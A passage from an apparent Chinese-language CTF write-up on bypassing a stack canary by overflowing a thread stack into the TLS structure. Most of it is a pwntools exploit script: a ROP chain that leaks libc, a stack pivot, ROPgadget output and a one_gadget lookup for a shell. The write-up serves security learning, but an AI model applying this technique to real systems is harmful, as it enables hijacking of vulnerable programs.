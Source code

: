 从上面的内存分布中可以看出，程序的线程栈是和线程的TLS相邻的，当栈溢出足够多时，就会影响到TLS结构体中的Canary。另外在start_routine函数中有leave_ret指令，为了方便起见，直接栈迁移好了；栈迁移后，我们可以通过溢出将fs寄存器所指TLS的Canary给改了：

```python
# coding:utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']

p=process("./bs")
elf=ELF("./bs")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
puts_plt_addr=elf.plt['puts']
puts_got_addr=elf.got['puts']
read_plt_addr=elf.plt['read']
bss_start_addr=elf.bss()

'''
root@4de10445acf0:~/Canary_User_Mode/ctf# ROPgadget --binary ./bs --only "pop|ret"
Gadgets information
============================================================
0x0000000000400bfc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400bfe : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c00 : pop r14 ; pop r15 ; ret
0x0000000000400c02 : pop r15 ; ret
0x0000000000400bfb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400bff : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400870 : pop rbp ; ret
0x0000000000400c03 : pop rdi ; ret
0x0000000000400c01 : pop rsi ; pop r15 ; ret
0x0000000000400bfd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400287 : ret
0x000000000040097e : ret 0x8b48

Unique gadgets found: 12
root@4de10445acf0:~/Canary_User_Mode/ctf# 
'''
pop_rdi_gadget_addr=0x400c03
pop_rbp_gadget_addr=0x400870
pop_rsi_r15_gadget_addr=0x400c01
leave_ret_addr=0x400A9B

payload='a'*0x1008+p64(0)*2 #更改Canary、rbp为零
payload+=p64(pop_rdi_gadget_addr)+p64(puts_got_addr)+p64(puts_plt_addr)
payload+=p64(pop_rdi_gadget_addr)+p64(0)+p64(pop_rsi_r15_gadget_addr)+p64(bss_start_addr+0x100)+p64(0xdeadbeef)+p64(read_plt_addr)
payload+=p64(pop_rbp_gadget_addr)+p64(bss_start_addr+0x100-0x8)+p64(leave_ret_addr) #注意p64(bss_start_addr+0x100-0x8)就行
payload=payload.ljust(0x2000,"\x00")

p.recvuntil('How many bytes do you want to send?\n')
p.sendline(str(0x2000))  #修改TLS结构体中的Canary为零
sleep(1)
p.send(payload)
p.recvuntil('It\'s time to say goodbye.\n')
puts_real_addr=u64(p.recv(6)+'\x00\x00')
libc_base=puts_real_addr-libc.symbols['puts']
print hex(libc_base)

'''
root@4de10445acf0:~/Canary_User_Mode/ctf# one_gadget /lib/x86_64-linux-gnu/libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
```